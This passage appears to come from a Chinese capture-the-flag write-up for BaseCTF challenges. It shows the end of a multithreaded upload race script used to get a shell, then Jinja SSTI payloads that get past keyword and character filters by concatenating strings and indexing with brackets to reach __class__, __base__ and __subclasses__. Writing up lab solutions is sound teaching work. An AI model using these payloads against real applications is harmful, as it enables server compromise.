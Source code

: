 ```python
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()
```

很容易跑出来shell，如果很慢，先检查脚本参数是否正确，不行再试试关掉魔法或者重启容器吧


## [Week3] 复读机 【复现】

考点：`SSTI`

::: v-pre
打开题目，限制了模板`BaseCTF{}`，通过测试可以发现ban了一些符合例如`""  __  . {{}}  +  - /`等等字符，以及SSTI常用的字符串例如`class,base,subclass,init,globals,popen,read,ss`等等
:::

梳理：  
::: v-pre
- 禁用双花括号可以使用`{%%}`替换
- 禁用双下划线以及常见字符串`__`还可以使用单引号`''`拼接实现
- 禁用点`.`可以使用方括号`[]`实现
:::

难点：  
获取`/`

::: v-pre
把常用的payload`{{().__class__.__base__.__subclasses__()}}`一点点替换到可以绕过题目的payload
:::

构造`class`：

::: v-pre
BaseCTF{%set chr=''['_''_clas''s''_''_']%}{%print(chr)%}
:::

同理构造`base,subclasses`，报错就换个位置拼接：

::: v-pre
BaseCTF{%set chr=''['_''_clas''s''_''_']['_''_bas''e_''_']%}{%print(chr)%}  
BaseCTF{%set chr=''['_''_clas''s''_''_']['_''_bas''e_''_']['_''_sub''c''l''a''s''s''e''s_''_']()%}{%print(chr)%}  
:::
